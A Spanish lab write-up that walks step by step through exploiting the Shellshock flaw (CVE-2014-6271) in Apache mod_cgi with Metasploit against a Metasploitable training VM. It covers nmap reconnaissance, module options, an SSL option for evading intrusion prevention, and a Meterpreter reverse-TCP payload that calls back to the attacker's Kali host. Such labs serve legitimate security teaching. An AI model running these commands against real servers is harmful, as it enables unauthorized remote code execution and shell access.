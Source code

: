 # Explotar vulnerabilidad CVE-2014-6271 (Shellshock) presente en Apache.

Este laboratorio muestra como usar la vulnerabilidad ***Shellshock*** que consigue ejecutar código mediante su inyección en una variable de entorno de Bash. Para ello usa el módulo ***mod_cgi*** del servidor Apache. Aquí tienes información sobre la vulnerabilidad: https://www.cvedetails.com/cve/CVE-2014-6271/.

La debilidad se encuentra en cómo la shell ***Bash*** gestiona las variables de entorno externas. Utiliza ***scripts CGI*** en el servidor web Apache inyectando una función maliciosa en la variable de entorno ***HTTP_USER_AGENT***.

Usamos ***nmap*** contra la víctima para determinar si está presente el servidor Apache.
```
nmap -sV 192.168.20.13 -p 80, 443
```

Como puede observarse en la imagen, está presente el servidor ***Apache 2.4.7*** en el puerto ***80***.

![Servidor Apache presente](../img/lab-30-B/202208111032.png)

Cargamos la consola de ***Metasploit*** sino estuviera ya iniciada.
```
msfconsole
```

Procedemos a cargar el módulo para realizar el ataque.
```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

Mostramos las ***opciones*** de este exploit.
```
show options
```

Las opciones son las siguientes.

![Opciones del módulo](../img/lab-30-B/202208111038.png)

Las configuraciones que debemos proporcionar son:

* *CMD_MAX_LENGTH*: Obligatoria. Es el número de caracteres que vamos a inyectar en la víctima. El valor 2048 suele ser suficiente para albergar las diferentes ***payloads*** disponibles. No lo cambiamos.
* *CVE*: Obligatoria. Contiene la vulnerabilidad a explotar, pudiendo elegir entre CVE-2014-6271 (https://www.cvedetails.com/cve/CVE-2014-6271/) y CVE-2014-6278 (https://www.cvedetails.com/cve/CVE-2014-6278/). Esta última es una variante de la anterior. Dejaremos el valor por defecto.
* *HEADER*: Obligatoria. Especifica la cabecera HTTP que será usada para inyectar el código malicioso. Debe ser ***User-Agent***, así que no la cambiamos.
* *METHOD*: Obligatoria. Especifica el verbo HTTP a utilizar. Debe ser ***GET***. No lo cambiamos.
* *Proxies*: Opcional. Permite relizar el ataque a través de un proxy. No lo usaremos.
* *RHOSTS: Obligatoria. IP(s) de la víctima(s). Ponemos la de ***Metasploitable-ubu1404***, que es ***192.168.20.13***.
* *RPATH*: Obligatoria. Ruta para los binarios usados por el ***Command Stager***. Cuando un payload es largo, el ataque podría no funcionar porque no es posible inyectar la totalidad de dicho payload. El ***Command Stager*** es un pequeño programa que puede ser inyectado, siendo su misión la de descargar el payload verdadero por trozos o partes (etapas). Dejamos la ruta por defecto.
* *RPORT*: Puerto que está sirviendo Apache. Como hemos visto con ***nmap*** es el ***80***. Lo dejamos tal cual.
* *SRVHOST*: Obligatoria. IP del servidor en la máquina ***Kali*** que recibirá la conexión del payload. Si solo disponemos de una IP, es indiferente. No cambiamos este ajuste.
* *SRVPORT*: Obligatoria. Puerto del servidor en la máquina ***Kali*** desde el que el ***CmdStager*** se descargará el payload. Dejamos este valor.
* *SSL*: Opcional. Podemos ocultar el tráfico del payload por medio de SSL. Su finalidad es evadir la detección de los ***IPS***. No lo usamos.
* *SSLCert*: Opcional. Certificado necesario para usar SSL. No lo usamos.
* *TARGETURI*: Ruta al script CGI que será inyectado y que deseamos ejecutar. Lo cambiamos a ***/cgi-bin/hello_world.sh***.
* *TIMEOUT*: Obligatorio. Tiempo de espera para recibir la response. Lo dejamos como está.
* *URIPATH*: Opcional. Este exploit no usa URI. Lo dejamos en blanco.
* *VHOST*: Opcional. Un ***Virtual host*** es una forma de alojamiento web que permite que varias paginas web puedan funcionar en un mismo host. Nuestro objetivo no es un virtual host, así que lo dejamos en blanco.

```
set RHOSTS 192.168.20.13
```

```
set TARGETURI /cgi-bin/hello_world.sh
```

Es el momento de mostrar los payloads compatibles con este ataque.
```
show payloads
```

Tenemos mucha diversidad.

![Lista de payloads](../img/lab-30-B/202208111124.png)

Vamos a usar un ***Meterpreter***.
```
set payload linux/x86/meterpreter/reverse_tcp
```
```
show options
```

Debemos configurar las opciones del payload.

![Opciones del payload](../img/lab-30-B/202208111129.png)

Establecemos como atacante la máquina de ***Kali***.
```
set LHOST 192.168.20.9
```

Respecto a ***LPORT*** dejamos el valor propuesto (***4444***). A este puerto se conectará el payload de meterpreter para ofrecernos la shell inversa.

Mostramos los ***targets***.
```
show targets
```

Hay dos candidatos, pero cuidado, el payload de meterpreter que hemos elegido es ***x86***, por lo que no funcionará en sistemas de ***64*** bits. Mejor elegimos el ***target 0***.
```
set target 0
````

El comando ***Check*** nos indica si se cumplen todas las condiciones para que el ataque pueda prosperar. Si nos dijera ***el objetivo NO es vulnerable*** seguro que el ataque no funcionará. Por el contrario, si la respuesta es ***el objetivo ES vulnerable***, solo nos informa que se cumplen las condiciones, pero no es garantía de que funcione. La víctima puede tener contramedidas (antivirus, IPS, etc) o incluso estar parcheada.
```
check
```

En principio podemos seguir con el ataque.

![Target is vulnerable](../img/lab-30-B/202208111130.png)

Solo resta lanzar el ataque y esperar obtener una shell inversa.
```
run
```
